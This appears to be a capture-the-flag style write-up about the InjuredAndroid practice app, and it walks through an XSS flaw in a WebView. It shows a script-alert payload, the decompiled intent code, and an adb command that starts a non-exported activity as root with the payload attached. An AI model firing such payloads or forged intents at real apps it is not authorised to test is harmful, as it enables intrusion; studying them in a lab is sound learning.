






This challenge isn't about getting some flag, rather about learning XSS on android.


Let's try to use this payload, and submit it `<script>alert(1337)</script>`.


Okay, now we'll explore the code:

```java
public void submitText(View view) {  
        Intent intent = new Intent(this, (Class<?>) DisplayPostXSS.class);  
        intent.putExtra("com.b3nac.injuredandroid.DisplayPostXSS", ((EditText) findViewById(R.id.editText)).getText().toString());  
        startActivity(intent);  
    }
```

We can see it creates intent from the class `DisplayPostXSS` with the key `com.b3nac.injuredandroid.DisplayPostXSS` and payload as the text it being submitted.

Then, we can see it sets up vulnerable settings, and also enable JS code exeuction:



Since we saw before it simply creates intent, we can get the same operation using adb shell and sending the intents on our own. Notice, at the `AndroidManifest.xml` we can see the activity `DisplayPostXSS` isn't exported, so in regular case we wouldn't be able to invoke this activity using explicit intent.



We can get it now, only because ew wstarted adb as root.



Anyway, this is how we can start the activity, with the string key:
```bash
adb shell am start -n "b3nac.injuredandroid/.DisplayPostXSS" --es 'com.b3nac.injuredandroid.DisplayPostXSS' "'<script>alert(1337)</script>'"
```


I tried to get `LFI` using this `XSS`, but it isn't working. probably because those two functions are set to false by default:

```java
setAllowFileAccess(false);
setAllowFileAccessFromFileURLs(false);
```
